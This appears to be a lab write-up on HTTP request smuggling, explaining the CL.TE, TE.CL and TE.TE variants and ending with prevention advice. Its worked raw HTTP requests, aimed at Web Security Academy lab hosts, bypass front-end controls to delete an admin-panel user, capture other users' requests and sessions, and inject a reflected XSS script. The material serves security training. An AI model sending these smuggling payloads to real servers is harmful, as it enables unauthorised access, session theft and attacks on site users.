# HTTP Request Smuggling

## What Is HTTP Request Smuggling?
**HTTP Request Smuggling** is an attack technique that is conducted by interfering with the processing of requests between the front end and back end servers. The attacker exploits the vulnerability by modifying the request in the first request's body. This is done by abusing **Content-Length** and **Transfer-Encoding** headers. 

After the attack is successful, the second request in the first request's body is smuggled and processed. 

### Types of HTTP Request Smuggling Vulnerabilities

|         | Front-End | Back-End  |
|---------|---------|-----------|
| CL. TE  | Content-Length | Transfer-Encoding |
| TE. CL  | Transfer-Encoding | Content-Length|
| TE. TE  | Transfer-Encoding | Transfer-Encoding |

#### CL. TE
* Assumes that the front-end prioritizes **Content-Length** header, while the back-end server prioritizes the **Transfer-Encoding** header
* First part of a request declares a short chunk length, typically 0
* The front-end server reads only the first part of the request and passes the second part to the back-end server

```html
POST / HTTP/1.1
Host: website.com
Content-Length: 13
Transfer-Encoding: chunked
 
0
MALICIOUS-REQUEST
```

#### TE. CL
* Assumes that the front server prioritizes the **Transfer-Encoding** weakness, while the back-end server prioritizes the **Content-Length** weakness
* The length of the first chunk is declared up to and including the **malicious request**
* The second chunk is declared as having 0 length, so the front-end server assumes the request is complete
* The request is passed to the back-end server, which receives and processes it

```html
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

15

MALICIOUS-REQUEST

0
```

#### TE. TE
* Both the front-end and back-end servers correctly prioritize the Transfer-Encoding header
* The headers can be ofuscated and involve a pair of **Transfer-Encoding** headers that do not follow the usual convention

```html
Transfer-Encoding: xchunked
Transfer-Encoding: chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding: xchunked

Transfer-Encoding
: chunked
Transfer-Encoding
: chunked
```

## How To Find And Exploit HTTP Request Smuggling Vulnerabilities?
* Use [Burp Suite's HTTP Request Smuggler Extension](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)
    * Supports scanning for Request Smuggling vulnerabilities 
    * Check documentation [here](https://github.com/PortSwigger/http-request-smuggler)

### Prepare Burp For Request Smuggling
1. Downgrade HTTP Protocol To HTTP/1.1
2. Change Request Method To POST
3. Disable Automatic Update Of Content-Length
4. Show non-printable characters

### CL. TE Vulnerability

#### Detect CL. TE




#### Confirm CL. TE



#### Poison Back-End

1. Send attack request

```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
G
```
2. Send normal request
```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

foo=bar 


```

#### Result
```html
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

### TE. CL Vulnerability

#### Detect TE. CL





#### Confirm TE. CL



#### Poison Back-End

1. Send attack request

```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
\r\n
0\r\n
\r\n
```
2. Send normal request
```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

foo=bar 


```

#### Result
```html
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

### TE. TE Vulnerability

#### Detect TE. TE




#### TE Header Obfuscation



#### Confirm TE. TE


#### Poison Back-End

1. Send attack request

```html
POST / HTTP/1.1
Host: 0a980096048c828c80ac3f8400e20057.web-security-academy.net
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: foo

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
\r\n
x=1\r\n
0\r\n
\r\n
```
2. Send normal request
```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

foo=bar 


```

#### Result
```html
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

#### Attack Request

```html
POST / HTTP/1.1
Host: 0afe003c04eb401081187f72001800e0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Transfer-Encoding: chunked

3
abc
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

#### Normal Request

```html
POST / HTTP/1.1
Host: 0afe003c04eb401081187f72001800e0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo = bar
```

### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

#### Attack Request

```html
POST / HTTP/1.1
Host: 0a560052044f34b183eb28260093007b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

50
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 6

0

```

#### Normal Request

```html
POST / HTTP/1.1
Host: 0a560052044f34b183eb28260093007b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

foo=bar


```

### Exploiting HTTP request smuggling to reveal front-end request rewriting

```html
POST / HTTP/1.1
Host: 0a4d00c7030f427a814ed94700d0001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-hSlExB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

```

### Exploiting HTTP request smuggling to capture other users' requests

#### Check if vulnerable

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
x

```

If it times out, it is very likely to be vulnerable. 

#### Confirm vulnerability

##### Attack Request

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Transfer-Encoding: chunked

0

GET /wqdhiwulh HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

##### Normal Request

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

If 404 not found is returned, then the CL. TE vulnerability is confirmed. 

##### Attack Request

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 344
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Cookie: session=Y59dcCS8DM6ZRiAKpzhkYkwxgIVN2Z3P
Content-Type: application/x-www-form-urlencoded
Content-Length: 950

csrf=Fjer3jYMxu2fSkFkzeHTWt9khhOhJbyV&postId=7&name=foobar&email=foobar%40bar.com&website=https%3A%2F%2Fbar.com&comment=foo
```

##### Victim Request

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 745

foo=bar
with many \r\n spaces here
```

### Exploiting HTTP request smuggling to deliver reflected XSS

#### Detect CL. TE Vulnerability

```html
POST / HTTP/1.1
Host: 0a0d00b303c593ec80de623100a1002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

3
abc
X

```

In case it is timed out, it means that it's likely vulnerable.

#### Exploit XSS

```html
POST / HTTP/1.1
Host: 0a0d00b303c593ec80de623100a1002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=8 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```


## How To Prevent HTTP Request Smuggling Vulnerabilities?
* Interpret HTTP headers consistently on front-end and back-end servers
* Disable vulnerable optimizations
* Avoid use of load balancers, CDNs, or reverse proxies if not required
* Use HTTP/2
* Disable connection reuse on the back-end server
* Configure the front-end server to normalize ambiguous requests
* Do not expose logged HTTP traffic
* Use a WAF
